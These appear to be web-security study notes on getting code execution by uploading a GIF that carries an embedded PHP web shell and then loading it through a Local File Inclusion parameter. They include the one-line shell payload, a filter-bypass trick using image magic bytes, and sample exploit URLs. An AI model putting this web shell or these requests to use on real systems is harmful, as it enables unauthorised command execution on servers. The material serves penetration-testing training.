

Image Upload
Image upload
For the attack in this section, we do NOT require the file upload form(functions that file to blacklist/whitelist adeguately) to be vulnerable, but merely allow us to upload files. We do not need for example that the file contain in the name “.php” to be executed because once uploaded is the vulnerable function that allow to execute files:
1. Craft a malicious image containing a PHP web shell code that still looks and works as an image.
just in case the upload form checks for both the extension and content type:
1) use an allowed image extension in the file name (e.g. shell.gif),
2) include the image magic bytes at the beginning of the file content (e.g. GIF8).
For more Magic Bytes check the chapter File Upload → Bypassing Filters → Bypass Type Filters
example:
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
2. Upload the malicious file
3. Include the file through the LFI vulnerability.
◇ To include the uploaded file, we need to know the path to our uploaded file.
◇ especially with images, we would get access to our uploaded file and can get its path from its URL. In our case, if we inspect the source code after uploading the image, we can get its URL
example: HTML code
By viewing the source code we will see only the last extension

By Inspecting the image uploaded (here sometimes we can find the imedded file)

◇ If we do not know where the file is uploaded, then we can fuzz for an uploads directory, and then fuzz for our uploaded file, though this may not always work as some web applications properly hide the uploaded files
4. include the uploaded file in the LFI vulnerable function, and the PHP code should get executed
example:
vulnerable LFI function called from the language parameter
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
http://<SERVER_IP>:<PORT>/index.php?language=profile_images/shell.gif&cmd=id
Note: In case the soorce code prefix a directory before our input, then we simply need to
../ out of that directory and then use our URL path, as we we have seen in Local File Inclusion(LFI): File Disclosure → Directory/Filename Prefix